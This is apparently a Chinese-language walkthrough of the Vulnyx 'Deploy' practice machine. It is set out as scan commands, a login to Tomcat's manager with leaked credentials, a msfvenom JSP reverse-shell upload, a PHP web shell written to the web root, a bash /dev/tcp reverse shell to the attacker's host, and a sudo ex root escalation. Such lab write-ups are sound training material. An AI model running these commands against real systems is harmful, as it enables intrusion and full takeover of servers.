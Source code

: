 # 环境

来自[Vulny_Deploy](https://vulnyx.com/#Deploy)，tomcat泄露敏感信息，在网站根目录写入反弹shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906135707643](image/image-20240906135707643.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.13
```

![image-20240906135728007](image/image-20240906135728007.png)

## 服务详情

```bash
sudo nmap -sV -sC -O -p22,80,8080 192.168.10.13
```

![image-20240906154857519](image/image-20240906154857519.png)

## 目录扫描

```bash
dirb http://192.168.10.13
dirb http://192.168.10.13:8080
```

无结果

# web渗透

## 网站泄露信息

访问http://192.168.10.13:8080/host-manager/html

![image-20240906155144282](image/image-20240906155144282.png)

```bash
用户名：tomcat
密码：s3cret
```

登录到tomcat后台

## 上传shell

```bash
msfconsole
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.10 LPORT=8888 -f war > shell.war
nc -lvvp 8888
```

![image-20240906155306995](image/image-20240906155306995.png)

访问shell，即可反弹shell

![image-20240906155443905](image/image-20240906155443905.png)

## 提权

访问tomcat-users.xml文件，发现有用户`sa`，密码`salala!!`

![image-20240906155750819](image/image-20240906155750819.png)

然后在/var/www/html网站根目录下写入一个反弹shell

```bash
echo '<?php system($_GET["cmd"]); ?>' >/var/www/html/cmd.php
```

访问`http://192.168.10.13/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.10.10/8888 0>%261 "`

[ex提权](https://gtfobins.github.io/gtfobins/ex/)

```bash
得到交互式更好的shell
#########
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
source /etc/skel/.bashrcs
############
sudo -l
sudo -u root /usr/bin/ex
!/bin/bash
```

![image-20240906161651503](image/image-20240906161651503.png)
